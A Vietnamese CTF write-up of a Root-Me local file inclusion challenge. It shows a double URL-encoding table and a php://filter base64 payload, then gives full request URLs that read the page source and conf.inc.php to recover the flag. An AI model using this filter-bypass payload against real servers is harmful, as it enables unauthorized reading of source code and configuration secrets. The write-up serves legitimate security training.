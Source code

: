 # Local File Inclusion - Double encoding

- 30 Points  

- Include can be dangerous

- No hints

# Overview:

![image](https://user-images.githubusercontent.com/115911041/229867328-8eca7f32-7935-45ff-a99e-2c6131de8847.png)

Theo đề bài nói ta cần phải double encode filepath để tránh bị phát hiện.

# Solution:

| Char | simple encoding | double encoding |
| :---:|      :---:      |      :---:      |
| :    | :3A             | : %253A         |
| /	   | : 2F	           | : %252F         |
| .	   | : 2E	           | : %252E         |
| -	   | : 2D	           | : %252D         |
| =	   | : 3D	           | : %253D         |
| <    | : 3C            | : %253C         |
| >    | : 3E            | : %253E         |

Chúng ta sử dụng payload `php://filter` với [base64 encoding](https://www.base64decode.org/). Các payload tham khảo [tại đây](https://github.com/payloadbox/rfi-lfi-payload-list)

`php://filter/convert.base64-encode/resource=cv`

Sau đó double encoding

`php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv`

Ta có thể encode cả URL

`http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv`

Ta được kết quả là 1 chuỗi kí tự dài.Copy chuỗi đó vào Base64 encoded ta được

`<?php include("conf.inc.php"); ?>`

Nhận thấy có lệnh `include` vậy chắc chắc flag nằm trong `conf.inc.php` 

`http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf`

Kết quả ta nhận được là 1 chuỗi dài như lúc trước. Tiếp tục base64 encoded, ta có được flag

![image](https://user-images.githubusercontent.com/115911041/229880520-032057ad-7f3d-496e-917e-e07cdfc600d9.png)
